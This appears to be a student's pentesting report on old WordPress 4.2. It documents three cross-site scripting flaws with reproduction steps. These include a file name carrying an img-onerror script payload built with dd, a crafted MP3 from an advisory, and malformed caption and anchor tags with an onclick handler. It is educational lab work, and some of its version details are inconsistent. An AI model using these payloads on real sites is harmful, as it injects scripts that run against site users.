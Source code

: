 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Large File Upload Error XSS - Image Files
  - [X] Summary:
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version:
  - [X] GIF Walkthrough:
  ![](xss-file-too-big.gif)
  - [X] Steps to recreate:
  ```
  a. dd if=/dev/zero of='something<img src=a onerror=(alert('pwned'))>.png' count=1024 bs=10000 to create a large file with the script exploit.
  b. Open WordPress > Media > Add new Image
  c. Add the newly created file.
  ```
1. (Required) Authenticated Cross-Site Scripting (XSS) via Media File Metadata
  - [X] Summary:
    - Vulnerability types: XSS, Metadata
    - Tested in version: 4.2.13
    - Fixed in version: 4.2.0
  - [X] GIF Walkthrough:
  ![](xss-mp3-metadata.gif)
  - [X] Steps to recreate:
  ```
  The following MP3 file can be used to reproduce this issue:

  https://www.securify.nl/advisory/SFY20160742/xss.mp3

  1) upload MP3 file to the Media Library (as Editor or Administrator).
  2) Insert an Audio Playlist in a Post containing this MP3 (Create Audio
  Playlist).
  ```
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7)
1. (Required) Malformed HTML Tags
  - [X] Summary:
    - Vulnerability types: XSS, Embedded Tags
    - Tested in version: 4.2.0
    - Fixed in version: N/A
  - [X] GIF Walkthrough:
  ![](xss-caption-code-exploit.gif)
  - [X] Steps to recreate:
  ```
    1) Create a new post
    2) Add the script on the text of the body: <a href="[caption code"]> </a> <a title=" onclick=alert("hi!")> something</a>
    3) Publish
  ```

## Assets

N/A

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

## Notes

What took the most time out of this experience is setting up the environment. Other than that, the exploits were easy to implement once a blog post has a good overview and a proof of concept of the exploits.

## License

    Copyright [2018] [Excel Espina]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
